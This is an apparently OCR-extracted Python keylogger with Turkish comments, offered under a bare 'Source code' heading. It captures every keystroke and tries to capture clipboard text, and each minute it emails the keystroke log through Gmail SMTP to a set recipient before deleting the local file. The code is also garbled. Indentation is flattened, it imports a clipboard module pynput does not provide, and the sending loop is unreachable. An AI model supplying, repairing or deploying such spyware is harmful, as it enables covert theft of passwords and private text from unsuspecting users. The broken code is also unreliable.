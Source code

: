     import smtplib
    from email.mime.multipart import MIMEMultipart
    from email.mime.text import MIMEText
    from pynput import keyboard
    from pynput import clipboard
    import os
    import time
    import schedule

    SMTP_SERVER = "smtp.gmail.com"
    SMTP_PORT = 587
    EMAIL_ADDRESS = "your_email@gmail.com"
    EMAIL_PASSWORD = "your_password"
    RECIPIENT_EMAIL = "recipient_email@gmail.com"

    tuş_sayıları = {}

    kopyalanan_metinler = open("kopyalanan_metinler.txt", "a")

    def on_press(key) :
    try :
    tuş = key.char  # Normal karakter tuşları
    except AttributeError :
    tuş = str(key)  # Diğer tuşlar(Shift, Ctrl, vs.)

    if tuş in tuş_sayıları :
    tuş_sayıları[tuş] += 1
    else:
    tuş_sayıları[tuş] = 1

    with open("basılan_tuşlar.txt", "a") as dosya :
    dosya.write(f"{tuş}\n")

    def on_copy(text) :
    kopyalanan_metinler.write(text + "\n")

    # E - posta gönderme fonksiyonu
    def send_email() :
    # E - posta oluşturma
    msg = MIMEMultipart()
    msg['From'] = EMAIL_ADDRESS
    msg['To'] = RECIPIENT_EMAIL
    msg['Subject'] = "Kullanıcı Aktiviteleri"

    # Metin belgesini e - posta içeriğine ekleme
    with open("basılan_tuşlar.txt", "r") as dosya :
    text = dosya.read()
    body = MIMEText(text)
    msg.attach(body)

    with smtplib.SMTP(SMTP_SERVER, SMTP_PORT) as server :
    server.starttls()
    server.login(EMAIL_ADDRESS, EMAIL_PASSWORD)
    server.send_message(msg)

    os.remove("basılan_tuşlar.txt")

    schedule.every(1).minutes.do(send_email)

    with keyboard.Listener(on_press = on_press) as listener1, clipboard.Listener(on_copy = on_copy) as listener2 :
    listener1.join()
    listener2.join()

    while True:
    schedule.run_pending()
    time.sleep(1)
